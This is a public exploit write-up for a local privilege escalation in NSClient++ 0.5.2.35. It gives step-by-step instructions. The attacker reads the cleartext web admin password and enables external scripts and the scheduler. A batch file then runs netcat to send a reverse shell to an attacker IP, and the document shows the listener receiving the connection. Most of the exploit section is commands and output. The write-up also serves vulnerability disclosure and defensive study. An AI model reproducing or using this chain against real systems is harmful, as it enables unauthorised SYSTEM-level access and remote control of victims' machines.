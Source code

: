```bash
Exploit Author: bzyo
Twitter: @bzyo_
Exploit Title: NSClient++ 0.5.2.35 - Privilege Escalation
Date: 05-05-19
Vulnerable Software: NSClient++ 0.5.2.35
Vendor Homepage: http://nsclient.org/
Version: 0.5.2.35
Software Link: http://nsclient.org/download/
Tested on: Windows 10 x64

Details:
When NSClient++ is installed with Web Server enabled, local low privilege users have the ability to read the web administator's password in cleartext from the configuration file.  From here a user is able to login to the web server and make changes to the configuration file that is normally restricted.

The user is able to enable the modules to check external scripts and schedule those scripts to run.  There doesn't seem to be restrictions on where the scripts are called from, so the user can create the script anywhere.  Since the NSClient++ Service runs as Local System, these scheduled scripts run as that user and the low privilege user can gain privilege escalation.  A reboot, as far as I can tell, is required to reload and read the changes to the web config.

Prerequisites:
To successfully exploit this vulnerability, an attacker must already have local access to a system running NSClient++ with Web Server enabled using a low privileged user account with the ability to reboot the system.

Exploit:
1. Grab web administrator password
- open c:\program files\nsclient++\nsclient.ini
or
- run the following that is instructed when you select forget password
        C:\Program Files\NSClient++>nscp web -- password --display
        Current password: SoSecret

2. Login and enable following modules including enable at startup and save configuration
- CheckExternalScripts
- Scheduler

3. Download nc.exe and evil.bat to c:\temp from attacking machine
        @echo off
        c:\temp\nc.exe 192.168.0.163 443 -e cmd.exe

4. Setup listener on attacking machine
        nc -nlvvp 443

5. Add script foobar to call evil.bat and save settings
- Settings > External Scripts > Scripts
- Add New
        - foobar
                command = c:\temp\evil.bat

6. Add schedulede to call script every 1 minute and save settings
- Settings > Scheduler > Schedules
- Add new
        - foobar
                interval = 1m
                command = foobar

7. Restart the computer and wait for the reverse shell on attacking machine
        nc -nlvvp 443
        listening on [any] 443 ...
        connect to [192.168.0.163] from (UNKNOWN) [192.168.0.117] 49671
```